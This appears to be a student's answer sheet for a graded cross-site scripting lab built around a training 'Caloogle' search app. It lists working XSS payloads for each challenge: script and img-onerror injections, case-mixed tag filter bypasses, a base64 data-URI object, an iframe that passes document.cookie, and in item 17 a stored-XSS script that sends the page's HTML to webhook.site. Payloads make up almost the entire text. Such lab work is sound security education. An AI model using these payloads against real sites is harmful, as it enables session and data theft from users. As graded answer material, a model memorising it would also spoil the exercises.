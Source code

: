 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: <script> success() </script>
```
  

# 2. No Script Allowed (3 points)

```
TODO: <img src onerror="success('Hacked by Hasan:)')">
```
  

# 3. One More Time, Like You Mean It (3 points)

```
TODO: <img src onerror="success('You are Noob:D')">
```
  

# 4. An Open-and-Shut Case (3 points)

```
TODO: <img src onerror="success('attack without torture ;D')">
```
  

# 5. Time to Mix Things Up (3 points)

```
TODO: <img src onerror="success('attack without torture ;D')">
```
  

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: <img src onerror="success('Nope')">
```
  

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
                                 or
  <iframe src=# onmouseover="success(document.cookie)"></iframe>
```
  

# 8. Angle of Death (6 points)

Attack input:

```
TODO: <<script>>success()</script>
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: <iframe"<svg onload=success()>">
```
  
# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: <iframe""<svg onload=success()>"">
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: '><script>success();</script>
```
  

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=success(1)**
```
  


# 15. The Early Bird Catches the Worm (3 points)

```
TODO: </ScrIpt><script>success(1)</script>
```
  
  
# 16. Tying Up Loose Ends (3 points)

```
TODO: <<//ScrIpt><script>success(1)<<//script>
```
  

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')
```
  
# 18. Congrats

N/A

# Əlavə qeydlər

```
Sadəcə çox təşəkkürlər,daha yolun başındayıq amma indidən mükəmməl bilgilər əldə edirik.(sayənizdə)

```
